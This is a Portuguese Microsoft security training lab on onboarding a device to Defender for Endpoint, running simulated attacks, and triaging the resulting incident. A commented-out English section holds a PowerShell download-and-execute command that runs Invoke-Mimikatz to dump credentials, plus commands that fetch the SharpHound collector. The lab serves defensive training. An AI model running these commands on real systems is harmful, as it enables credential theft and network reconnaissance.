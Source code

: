 ```yaml
---
lab:
  title: 'Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade'
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Roteiro de aprendizagem 2, Laboratório 1, Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

## Cenário do laboratório

![Visão geral do laboratório.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Você é um analista de operações de segurança que trabalha em uma empresa que está implantando o Microsoft Defender para Ponto de Extremidade. Seu gerente planeja integrar alguns dispositivos para fornecer informações sobre as alterações necessárias nos procedimentos de resposta da equipe de Operações de segurança (SecOps).

Para explorar os recursos de mitigação de ataques do Defender para Ponto de Extremidade, você executará dois ataques simulados.

>**Observação:** uma **[simulação de laboratório interativa](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** está disponível e permite que você clique neste laboratório no seu próprio ritmo. Você pode encontrar pequenas diferenças entre a simulação interativa e o laboratório hospedado, mas os principais conceitos e ideias que estão sendo demonstrados são os mesmos.


### Tarefa 1: verificar integração de dispositivos

Nesta tarefa, você confirmará se o dispositivo foi integrado com êxito e criará um alerta de teste.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador Microsoft Edge, acesse (https://security.microsoft.com) e faça logon como Administrador do seu locatário.

1. No menu à esquerda, na área **Ativos** , selecione **Dispositivos**. Aguarde até que WIN1 apareça na página Dispositivos antes de continuar. Caso contrário, talvez seja necessário repetir essa tarefa para ver os alertas que serão gerados posteriormente.

    >**Observação:** se você tiver concluído o processo de integração e não vir dispositivos na lista de dispositivos após uma hora, isso pode indicar um problema de integração ou de conectividade.

1. Selecione **Configurações** na barra de menus à esquerda e, na página Configurações, selecione **Pontos de extremidade**.

1. Selecione **Integração** na seção Gerenciamento de dispositivo e verifique se *"Windows 10 e 11"* está selecionado como sistema operacional. A mensagem *"Primeiro dispositivo integrado"* agora mostra *Concluído*.

1. Role para baixo e, na seção *"2. Executar um teste de detecção"*, copie o script do teste de detecção selecionando o botão **Copiar**.  

1. Na barra de pesquisa do Windows da máquina virtual WIN1, digite **CMD** e escolha **Executar como Administrador** no painel direito do aplicativo Prompt de comando. 

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado. 

1. Cole o script clicando com o botão direito do mouse na janela **Administrador: Prompt de comando** e pressione **Enter** para executá-lo.

    >**Observação:** a janela fecha automaticamente após a execução do script.

### Tarefa 2: ataques simulados

>**Observação:** O laboratório de avaliação e a seção Tutoriais e simulações do portal não estão mais disponíveis. As etapas a seguir são fornecidas somente para referência. Consulte a **[simulação de laboratório interativo](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** para ver uma demonstração dos ataques simulados. Estamos trabalhando para encontrar um substituto para os ataques simulados.

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. No menu esquerdo, em **Pontos de extremidade**, selecione **Avaliação e tutoriais** e depois clique em **Tutoriais e simulações** no lado esquerdo.

1. Selecione a guia **Tutoriais**.

1. Em *Investigação automatizada (backdoor)*, você verá uma mensagem descrevendo o cenário. Abaixo deste parágrafo, clique em **Ler o passo a passo**. Uma nova guia do navegador é aberta, que inclui instruções para executar a simulação.

1. Na nova guia do navegador, localize a seção chamada **Executar a simulação** (página 5, começando na etapa 2) e siga as etapas para executar o ataque. **Dica:** o arquivo de simulação *RS4_WinATP-Intro-Invoice.docm* pode ser encontrado no portal, logo abaixo de **Ler o passo a passo** que você selecionou na etapa anterior, clicando no botão **Obter arquivo de simulação**.

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### Tarefa 3: investigar os ataques

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**.

1. Um novo incidente chamado "Várias famílias de ameaças foram detectadas em um ponto de extremidade" está no painel direito. Selecione o nome do incidente para carregar seus detalhes.

    >**Observação:** Você deverá ver os alertas *Bloodhound* e Mimikatz* no painel **Alertas**. Em **Ativos/Dispositivos**, o computador *win1* agora terá um **Nível de risco** *Alto*.

1. Selecione o botão **Gerenciar incidente** e uma nova folha de janela será exibida. 

1. Em **Marcas de incidente**, digite "Simulação" e selecione **Simulação (Criar)** para criar uma marca. 

1. Selecione o botão de alternância **Atribuir a** e adicione sua conta de usuário (Eu) como proprietário do incidente. 

1. Em **Classificação**, expanda o menu suspenso. 

1. Em **Atividade esperada e informativa**, selecione **Teste de segurança**. 

1. Adicione quaisquer comentários, se desejar, e selecione **Salvar** para atualizar o incidente e concluir.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Dispositivos e Usuários estão na guia *Ativos*. A guia *História do ataque* exibe o *gráfico Incidente*. **Dica:** algumas guias podem estar ocultas devido ao tamanho da tela. Selecione a guia de reticências (...) para que elas apareçam.

    >**Aviso**: Os ataques simulados aqui são uma excelente fonte de aprendizado por meio da prática. Execute apenas os ataques nas instruções fornecidas para este laboratório ao usar o locatário do Azure fornecido pelo curso.  Você pode executar outros ataques simulados *após* este curso de treinamento ser concluído com esse locatário.

## Você concluiu o laboratório.
